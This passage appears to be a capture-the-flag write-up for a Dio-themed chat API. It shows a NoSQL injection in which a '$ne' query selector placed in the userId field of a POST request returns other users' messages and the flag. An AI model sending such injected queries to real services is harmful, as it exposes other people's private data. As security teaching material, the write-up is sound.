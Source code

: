 **Reponse**
```json
{
    "reply": {
        "userId": "ff37a073-ec9f-4fb0-a07a-382deddd5df5",
        "message": "Muda! Muda! Muda! Muda! Muda!",
        "fromDio": true,
        "_id": "5fc9919ee14a046803dfe59b"
    }
}
```

## Creating the Attack
The `_id` field used in the API responses stuck out to me as a convention I've seen used in MongoDB. There may be a NoSQL injection vulnerability here. 

It is possible that the message history gets fetched by a method that looks like this:

```js
db.collection.find({
    "userId": userId // Normally userId would be something harmless like "ff37a073-ec9f-4fb0-a07a-382deddd5df5"
})
```

We could inject this with a query selector to find documents that don't belong to us. We can try hitting the endpoint with a query to find all messages with a userId _not equal_ to our ID:

**Request**
```json
POST /hey HTTP/1.1

{"userId":{ "$ne": "ff37a073-ec9f-4fb0-a07a-382deddd5df5"}}

```

**Response**
```js
{
    "userId": {
        "$ne": "ff37a073-ec9f-4fb0-a07a-382deddd5df5"
    },
    "history": [
        {
            "_id": "5fc8f9f9e14a04179adfe599",
            "userId": "j0hn474n-j03574r",
            "message": "H2G2{k0n0_d10_d4_!}",
            "fromDio": true
        } // Snipped out all the other messages to save space
    ]
}
```

Success, we were able to view all the other messages in the database, and most importantly, the flag message: `H2G2{k0n0_d10_d4_!}`
